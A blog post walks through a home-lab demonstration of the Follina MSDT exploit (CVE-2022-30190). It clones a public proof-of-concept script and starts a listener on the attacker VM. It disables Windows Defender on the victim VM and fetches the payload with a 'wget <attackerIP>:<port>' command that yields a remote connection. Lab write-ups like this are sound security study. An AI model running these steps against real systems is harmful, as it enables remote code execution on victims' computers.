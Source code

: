 ```yaml
---
title:  "Zero-Day CVE-2022-30190 MS-MSDT Follina"
excerpt: "In this post I will show you the MS-MSDT Follina exploit (CVE-2022-30190)"
mathjax: true
layout: post
categories:
    -- github
    -- website
---
```


1 . Introduction
<br>
2 . My Setup
<br>
3 . Exploit in Action!<br>

---

## This post is designed to teach you how to exploit the MS-MSDT Follina vulnerability!

---

### 1. Introduction

*I want to give thanks and credit to **John Hammond** and his work with the Huntress team identifying and showing exactly how this exploit works! Check out his [Youtube](https://www.youtube.com/watch?v=dGCOhORNKRk&ab_channel=JohnHammond) or the Huntress [blog](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug).*

- At the bottom of this blog post I have a short GIF showing the exploit in action.

- This zero-day is a vulnerability which has been announced and unpatched for the past 2 days as of writing this article.

- The vulnerability takes advantage of the Microsoft Diagnostics Tool (MSDT) and other Microsoft utilities. 

- Basically, the attacker can send you a seemingly harmless word document, however, once you open the document (or even preview pane) the malicious remote code execution happens and the attacker has just infected your computer with a virus, a command and control access point, crypto coin miner, etc. 

---

### 2. My Setup

For my attack computer I ran kali Linux in VMWare Workstation 16 player using NAT and HOST virtualized ethernet adapters.

I ran my victim computer on an evaluation Windows 11 virtualized machine in VMWare Workstation 16 player using a HOST-Only virtualized ethernet adapter.

---

### 3. Exploit in Action!

John Hammond made the exploit accessible via his GitHub [here](https://github.com/JohnHammond/msdt-follina) as a simple python script which creates the malicious file, opens a listener, and hosts the malicious file.

**Prior to starting the exploit**

You may have malware protection and defender services for your endpoint hosting these Virtual Machines. It may stop your virtual machines from transferring and running the python script. Therefore, at your discretion you may need to turn off these services to see the functional exploit. 

*Proceed at your own risk*

**On Attack Device**


    #Step 1: 

    git clone https://github.com/JohnHammond/msdt-follina.git

    #Step 2:
    python3 Follina.py -r <port number of choice>

**On victim**

    #Step 3: Disable Windows Defender Real-Time Protection
![realtime](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/real-time.PNG)

    #Step 4: Open Powershell

    #Step 5:
    wget <attackerIP>:<port chosen in step 2>

You should have seen the Microsoft Diagnostics Tool load, and then you received connection at your listener on the attacking computer.

![gif](https://github.com/matthewomccorkle/matthewomccorkle.github.io/blob/a6f21de03fffc6c24b07f22c5f507cfe2e364aa4/_posts/assets/follina.gif)

